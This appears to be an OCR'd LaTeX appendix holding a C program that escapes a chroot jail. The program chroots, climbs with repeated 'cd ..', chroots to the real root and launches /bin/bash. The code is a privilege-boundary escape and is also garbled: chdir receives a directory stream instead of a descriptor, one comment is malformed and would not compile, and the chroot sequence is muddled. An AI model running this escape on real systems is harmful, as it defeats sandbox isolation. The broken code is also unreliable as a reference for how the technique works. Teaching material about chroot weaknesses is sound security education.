 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\newpage
\begin{appendices}
\section{\texttt{cd ..} out of \texttt{chroot} jail\label{app:chroot:cd}}
\begin{lstlisting}
#include <stdio.h>
#include <sys/types.h>
#include <dirent.h>
#include <errno.h>
#include <stdlib.h>

void print_current();

int main(int argc, char** argv) {
  int i;
  DIR *dir;
  print_current();
  puts("Chroot to /tmp\n");

  // Create jail
  if(chroot("/tmp") != 0) {
    printf("chroot to /tmp failure \n");
    exit(EXIT_FAILURE);
  }

  // Create dir
  dir = opendir("bin");


  if(chroot("/bin") != 0) {
    printf("chroot to /bin failure \n");
    exit(EXIT_FAILURE);
  }

  print_current();

  puts("Chdir to the hander\n");
  if(chdir(dir) != 0)
    printf("change directory to handler failure \n");

  print_current();

  for(i = 0; i < 1024; i++) {
    if(chdir("..") != 0) {
      printf("%d Unable to cd ..\n", i);
    }
  }

  print_current();

  / Chroot to  .
  if(chroot(".") != 0) {
    printf("chroot failure \n");
    exit(EXIT_FAILURE);
  }

  system("/bin/bash");

  return 0;
}

void print_current() {
  char buffer[100];

  getcwd (buffer, 50);
  printf("Current Directory: %s\n", buffer);
  return;
}
\end{lstlisting}
\end{appendices}
\end{document}
